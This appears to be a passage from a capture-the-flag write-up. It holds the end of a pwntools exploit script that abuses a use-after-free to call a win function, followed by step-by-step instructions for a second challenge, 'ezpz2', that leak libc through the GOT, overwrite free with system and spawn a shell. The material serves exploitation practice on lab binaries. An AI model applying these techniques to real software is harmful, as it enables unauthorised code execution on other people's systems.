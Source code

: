 ```python
	p.sendline(str(index))

# create question
create()
create()

# delete question
delete(0)
delete(1)

# set deleted question
setQuestion(0, 'yeet')

# create new question
create()	# 2

# write win address to it
win = p32(0x08048a5c)
setQuestion(2, win)

# call win
askQuestion(1)

p.interactive()
```

## ezpz2

---

FLAG{REDACTED}

---

_The title is a lie_

A big of a step up from the previous one, this time the print function is not in the heap. That means you cannot decide the function to call. So the first thing to find out it where to write to.  
Also, this time there is no win function..  
Making one of the challenges to find out what to overwrite.

1. Overwrite the pointer to the string with the address of the got (obtained from the binary)
2. Leak a libc address, and calculate offsets of necessary functions from the got.
3. You can find out the exact version of libc used by doing step 2 twice and putting the last 3 (hex) digits of the address into an online database like [libc.nullbyte.cat](https://libc.nullbyte.cat).
4. `free` is the only function that gets called with the string buffer as the first argument, and is also only used in one place (technically 2), so overwrite the address of `free` in the got with `system`
5. Use the previously calculated offsets to make sure that the program doesn't segfault early, by preserving the addresses of the rest of libc
6. Put `/bin/sh\x00` into the string and call `"free"` i.e. `system` with the buffer as the argument (which ask_question does for you)
7. `cat flag`
